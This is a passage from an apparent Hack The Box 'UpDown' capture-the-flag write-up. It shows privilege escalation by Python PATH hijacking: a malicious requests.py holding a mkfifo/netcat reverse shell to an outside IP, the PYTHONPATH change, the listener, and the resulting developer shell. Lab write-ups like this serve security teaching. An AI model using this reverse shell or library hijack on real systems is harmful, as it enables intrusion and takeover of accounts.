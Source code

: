 	> `/home/developer/dev/siteisup_test.py` - python script is called
	{: .prompt-info }
3. View `/home/developer/dev/siteisup_test.py`
	```
	www-data@updown:/tmp$ cat /home/developer/dev/siteisup_test.py
	import requests
	
	url = input("Enter URL here:")
	page = requests.get(url)
	if page.status_code == 200:
	        print "Website is up"
	else:
	        print "Website is down"
	```
	> `requests` -  library is imported
	{: .prompt-info }


## Developer - Python PATH Hijacking 
1. How do we exploit `/home/developer/dev/siteisup`?
	1. `siteisup` is calling a python script `siteisup_test.py`
	2. `siteisup_test.py` is importing a library `requests`
	3. We are able to do Python PATH Hijacking by defining our own python path to a writable directory `/tmp`
	4. Next, create a malicious python library in our writable directory `/tmp` also called `requests.py` that will invoke a reverse shell. 
	5. Since we defined that `/tmp` is our python path, `requests.py` will be executed, instead of the actual `requests.py`, invoking our reverse shell.
2. Exploiting `/home/developer/dev/siteisup`
	1. Remove `f` created earlier from our reverse shell
	2. Create malicious python library `/tmp/requests.py`
		```python
		import os;
		os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.104 4444 >/tmp/f")
		```
	2. Define our python path
		```
		www-data@updown:/tmp$ export PYTHONPATH=/tmp
		```
	3. Start `netcat` listener
		```
		┌──(root💀kali)-[~/htb/UpDown]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		```
	4. Invoke reverse shell
		```
		/home/developer/dev/siteisup
		```
	5. `developer` shell obtained
		```
		┌──(root💀kali)-[~/htb/UpDown]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		Ncat: Connection from 10.10.11.177.
		Ncat: Connection from 10.10.11.177:59048.
		$ id;whoami
		uid=1002(developer) gid=33(www-data) groups=33(www-data)
		developer
		$ cd /home/developer